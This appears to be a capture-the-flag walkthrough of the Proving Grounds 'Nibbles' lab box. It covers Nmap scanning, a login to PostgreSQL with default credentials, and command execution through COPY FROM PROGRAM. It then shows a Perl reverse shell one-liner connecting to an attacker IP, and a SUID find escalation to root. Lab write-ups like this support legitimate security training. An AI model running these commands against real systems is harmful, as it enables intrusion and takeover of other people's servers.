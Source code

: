 ```yaml
---
layout: post
title: Proving Grounds - Nibbles (Intermediate)
---
```


# Introduction 

This is an Intermediate Linux box on Proving Grounds.

# Enumeration

As always first I will run a service version Nmap scan. This reveals FTP, SSH, and a webserver on HTTP.

```bash
$ sudo nmap --min-rate 100 -sV -sC -T4 192.168.122.47 -oA nmap/versions
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-14 11:34 EDT
Nmap scan report for 192.168.122.47
Host is up (0.083s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT    STATE  SERVICE      VERSION
21/tcp  open   ftp          vsftpd 3.0.3
22/tcp  open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp  open   http         Apache httpd 2.4.38 ((Debian))
|_http-title: Enter a title, displayed at the top of the window.
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp closed netbios-ssn
445/tcp closed microsoft-ds
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds
```

Running a further Nmap scan across all ports reveals one more open port - 5437. This is PostgresQL.

```bash
 sudo nmap -p- -T4 192.168.122.47 -o nmap/all 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-14 12:19 EDT
Nmap scan report for 192.168.122.47
Host is up (0.084s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   pmip6-data

Nmap done: 1 IP address (1 host up) scanned in 110.82 seconds
```

## Apache Webserver

Service: `Apache/2.4.38 (Debian)`

To me this looked like a default page and I was not able to find anything interesting via directory enumeration.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220414121002.png)

## PostgresQL Enumeration

We can use Nmap to attempt a service version scan on the PostgresQL port - this succesfully identifies the version as between 11.3 - 11.7.

```bash
$ nmap -sC -sV -p 5437 192.168.122.47    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-14 12:26 EDT
Nmap scan report for 192.168.122.47
Host is up (0.083s latency).

PORT     STATE SERVICE    VERSION
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.7
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.81 seconds
```

Default credentials are always worth a try:

```bash
psql -h 192.168.122.47 -p 5437 -U postgres -W
```

Here we can try the username-password combination `postgres:postgres`:

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220414123116.png)

# PostgresQL Exploitation

The default credentials are valid and we are able to enumerate the database and also list directories.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220414123818.png)


```sql
select pg_ls_dir('/etc');
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220414123748.png)

Internal reconnaissance of the server enabled me to identify it as PostgresQL version 11.7 but unfortunately I do not have a screenshot of this. Knowing this, we can search for vulnerabilties - an authenticated RCE exploit is available.

[PostgreSQL 9.3-11.7 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50847)

Example
```bash
sudo python3 50847.py -i 192.168.171.47 -p 5437 -c "(command)"
```
However this did not work for me, so I resorted to manually exploting the RCE.

## Manual RCE

1) [Optional] Drop the table you want to use if it already exists

```sql
DROP TABLE IF EXISTS cmd_exec;
```

2) Create the table you want to hold the command output

```sql
CREATE TABLE cmd_exec(cmd_output text);
```

3) Run the system command via the COPY FROM PROGRAM function

```sql
COPY cmd_exec FROM PROGRAM 'id';
```

4) [Optional] View the results

```sql
SELECT * FROM cmd_exec;
```

5) [Optional] Clean up after yourself

```sql
DROP TABLE IF EXISTS cmd_exec;
```

Executing a Perl reverse shell:
```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.49.171:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220417125357.png)

We receive a connect back at the listener and we have interactive shell access as the `postgres` user.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220417125500.png)

Another local user is present, `wilson`, and the current user has the privileges to read their files (such as the local flag).

# Privilege Escalation

Firewall rules which prevented file transfer were in place, so I generated SSH keys on the target and added to the Kali authorized keys file. Then we can transfer files with `scp` e.g.

```bash 
scp -i /var/lib/postgresql/.ssh/id_rsa kali@192.168.49.171:/home/kali/Documents/oscp/provingGrounds/nibbles/linpeas.sh /tmp/
```

This was however COMPLETELY unneccessary as one of the first enumeration commands I had run manually had shown the PE vector...

```bash
postgres@nibbles:/tmp$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/find
/usr/bin/sudo
/usr/bin/umount
```

The binary `find` with a SUID bit set is a classic privilege escalation technique seen often in CTFs.

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020230214225759.png)
